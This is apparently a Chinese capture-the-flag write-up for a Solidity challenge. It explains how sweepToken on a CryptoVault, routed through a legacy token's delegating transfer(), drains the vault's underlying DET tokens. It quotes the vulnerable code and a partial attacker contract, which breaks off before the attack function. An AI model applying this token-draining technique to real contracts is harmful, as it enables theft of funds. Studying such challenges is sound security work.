 攻击方法是调用CryptoVault的`sweepToken()`，攻击思路如下：

1.在CryptoVault合约中调用sweepToken( LGT )，可以调用成功因为传参不是DET

2.在LGT合约中，会调用到`transfer()`。这不是`transfer()`的标准实现，这种魔改的方法往往会有问题。因为LGT合约中已经设置过delegate了，为DET，因此会走到else语句中。注意，这里的msg.sender是CryptoVault。

```solidity
function transfer(address to, uint256 value) public override returns (bool) {
    if (address(delegate) == address(0)) {
    return super.transfer(to, value);
    } else {
    return delegate.delegateTransfer(to, value, msg.sender);
    }
}
```

3.然后会程序流会跳转到DET合约的`delegateTransfer()`方法，然后进行转账。因为没有设置机器人来报警，因此会被转走代币。

4.这样，我们就在CryptoVault偷走DET！

![](https://moe.photo/images/2023/07/19/image-20230719174622591.png)

攻击代码可以是如下。将题目instance地址传入，然后调用`attack_stealDET()`即可

```solidity
pragma solidity 0.8.17;

interface IForta {
    function setDetectionBot(address) external;
    function notify(address , bytes calldata ) external;
    function raiseAlert(address ) external;
}//报警机器人

interface IDetectionBot {
    function handleTransaction(address, bytes calldata ) external;
}

interface ICryptoVault{
    function sweepToken(address) external;
    function underlying() external view returns(address);
} // 金库

interface ILegacyToken { } // 垃圾币

interface IDoubleEntryPoint {
    function cryptoVault() external view returns(address);
    function delegatedFrom() external view returns(address);
    function forta() external view returns(address);
} // 底层币

// 1. 获取一个实例，尝试是否可以攻击成功
contract attaker{
    IDoubleEntryPoint instance; // 题目实例
    IForta forta; // 报警机器人
    IDoubleEntryPoint DET; // 底层币
    ILegacyToken LGT; // 垃圾币
    ICryptoVault vault; // 金库

    constructor(IDoubleEntryPoint _addr) public {
        // 初始化题目信息
        instance = _addr;
        vault = ICryptoVault(instance.cryptoVault());
        DET = IDoubleEntryPoint(vault.underlying());
        LGT = ILegacyToken(instance.delegatedFrom());
        forta = IForta(instance.forta());
    }
```